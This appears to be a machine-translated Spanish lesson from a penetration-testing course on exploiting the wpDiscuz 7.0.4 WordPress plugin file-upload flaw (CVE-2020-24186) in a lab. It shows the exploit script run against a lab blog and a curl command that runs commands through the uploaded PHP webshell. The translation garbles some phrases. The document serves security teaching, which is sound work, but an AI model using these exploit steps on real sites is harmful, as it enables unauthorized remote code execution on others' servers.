 ### **Complementos vulnerables - wpdiscuz**

[wpdiscuz](https://wpdiscuz.com/)es un complemento de WordPress para comentarios mejorados en las publicaciones de la página. Al momento de escribir, el complemento había terminado[1,6 millones de descargas](https://wordpress.org/plugins/wpdiscuz/advanced/)Y más de 90,000 instalaciones activas, lo que lo convierte en un complemento extremadamente popular que tenemos muy buenas posibilidades de encontrarnos durante una evaluación. Basado en el número de versión (7.0.4), esto[explotar](https://www.exploit-db.com/exploits/49967)tiene una buena oportunidad para obtener la ejecución de comando de los Estados Unidos. El quid de la vulnerabilidad es un bypass de carga de archivo. WPDiscuz está destinado solo a permitir accesorios de imagen. Las funciones de tipo MIME de archivo podrían omitirse, permitiendo que un atacante no autenticado cargue un archivo PHP malicioso y obtenga la ejecución de código remoto. Se puede encontrar más sobre las funciones de detección de tipo MIME[aquí](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).

El script de exploit toma dos parámetros:`-u`la url y`-p`el camino a una publicación válida.

Atacando a WordPress

```
xnoxos@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
---------------------------------------------------------------

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot;

> id

[x] Failed to execute PHP code...

```

El exploit tal como está escrito puede fallar, pero podemos usar`cURL`para ejecutar comandos utilizando el shell web cargado. Solo necesitamos agregar`?cmd=`después de la`.php`Extensión para ejecutar comandos que podemos ver en el script de explotación.

Atacando a WordPress

```
xnoxos@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=idGIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
